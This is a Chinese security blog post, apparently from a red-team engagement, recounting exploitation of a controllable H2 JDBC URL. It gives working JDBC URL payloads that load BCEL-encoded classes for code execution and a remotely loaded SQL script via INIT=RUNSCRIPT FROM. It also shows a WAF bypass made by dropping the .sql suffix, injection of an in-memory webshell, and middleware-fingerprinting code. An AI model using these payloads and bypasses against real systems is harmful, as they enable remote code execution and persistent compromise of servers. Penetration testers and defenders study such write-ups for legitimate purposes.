






```
标题: 一次 H2 JDBC 的实战利用
创建: 2023-04-25
更新: 2023-04-25
```

[首发微信订阅号](https://mp.weixin.qq.com/s/vdb2zUbE4DxV-ua1xWm5cw)

---

### 0x00 前言

本文记录一次攻防中针对 h2 database 的实战利用。

### 0x01 简介

主要内容：

- 基于 BCEL 构造 H2 的不出网利用
- WAF 绕过
- 判断中间件的坑点

### 0x02 失败的 H2 不出网利用

前段时间的一次攻防项目中发现了一处 jdbc url 可控的漏洞，测试几个数据库后，最终探测到目标存在 h2 的依赖。

基于 BCEL 构造其不出网的利用：

```java
public class Test {
    public static void main(String[] args) throws Exception {
        String clazzBCELCode = "$$BCEL$$...";
        String connectionUrl = String.format("jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists test;create alias test as 'void exec() throws java.io.IOException  { try { new com.sun.org.apache.bcel.internal.util.ClassLoader().loadClass(\"%s\").newInstance(); } catch (Exception e){ }}';call test();", clazzBCELCode);
        Connection connection = DriverManager.getConnection(connectionUrl);
        connection.close();
    }
}
```

报错



分号没转义的锅，详见：[参考1]，最终构造出的可用 payload 如下

```text
String connectionUrl = String.format("jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists test\\;create alias test as 'void exec() throws java.io.IOException  { try { new com.sun.org.apache.bcel.internal.util.ClassLoader().loadClass(\"%s\").newInstance()\\; } catch (Exception e){ }}'\\;call test()\\;", clazzBCELCode);
```



根据手上代码判断目标中间件大概率为 tomcat，于是直接生成对应中间件的内存马，构造请求后发过去

然而



起初猜测该 waf 的规则不会特别严格，但是经过多次测试发现其拦截的关键字实在太多（Base64、BigInteger、defineClass、newInstance等），如果考虑从代码层面去绕 waf 感觉成本较大，所以暂且搁置了这条路。

想到了一种更方便、简单的绕过姿势:
- 利用：INIT=RUNSCRIPT FROM（远程加载 sql 文件，从而不会出现太多关键字）
- 条件：需要出网

(运气还不错) 通过 http log 验证目标可以出网后， 根据bcel payload 改成 sql 文件进行测试：

```text
drop alias if exists exec;
create alias test as 'void exec() throws java.io.IOException  { try { new com.sun.org.apache.bcel.internal.util.ClassLoader().loadClass("$$BCEL$$...").newInstance(); } catch (Exception e){ }}';
call test();
```

没啥问题，再次生成对应的内存马，



本地验证是否可以成功注入内存马。



### 0x03 绕过 WAF，拿下目标

但是后面在目标上进行远程加载 sql 文件时，再次被 waf 给拦截，


经过逐一删除字符发现拦截的关键字是：sql，本地黑盒测试发现 `INIT=RUNSCRIPT FROM` 的利用可以没有后缀（trick +1），



最终通过删除 .sql 后缀绕过 waf 并成功拿下目标。

### 0x04 一个小坑
在第一次注入内存马并没有成功,当时猜测原因是目标的中间件不是 tomcat ,因为通过当前线程的堆栈信息判断的结果为 None。

想到了两种可能：
- 工具没覆盖到目标所用中间件
- 触发代码执行的线程非 web 进程

后面经过测试后确认为第2种情况，使用优化后的代码获取到了目标的中间件。

优化前的代码: 当前线程的堆栈

```java
StackTraceElement[] stackTraceElementArray = Thread.currentThread().getStackTrace();
for (StackTraceElement element : stackTraceElementArray) {
    if (element.getClassName().contains("org.apache.catalina.core")) {
        server_type = "tomcat";
        return;
    }
    if (element.getClassName().contains("weblogic.servlet.internal")) {
        server_type = "weblogic";
        return;
    }
    ...
```

优化后的代码：所有线程的堆栈

```java
ArrayList<String> serverTypes = new ArrayList<>();
Map<Thread, StackTraceElement[]> stackTraces = Thread.getAllStackTraces();
for (Map.Entry<Thread, StackTraceElement[]> entry : stackTraces.entrySet()) {
    StackTraceElement[] stackTraceElements = entry.getValue();
    for (StackTraceElement element : stackTraceElements) {
        if (element.getClassName().contains("org.apache.catalina.core")) {
            serverTypes.add("tomcat");
        }
        if (element.getClassName().contains("weblogic.servlet.internal")) {
            serverTypes.add("weblogic");
        }
        ...
```

### 0x05 总结
就不立 flag 了，后续随缘更新。

参考
```text
[1] https://stackoverflow.com/questions/49254492/h2-jdbcsqlexception-url-format-error
[2] Java安全攻防之老版本Fastjson-的一些不出网利用
```

---

[LEAVE A REPLY](https://github.com/pen4uin/blog-feedback/issues/new)

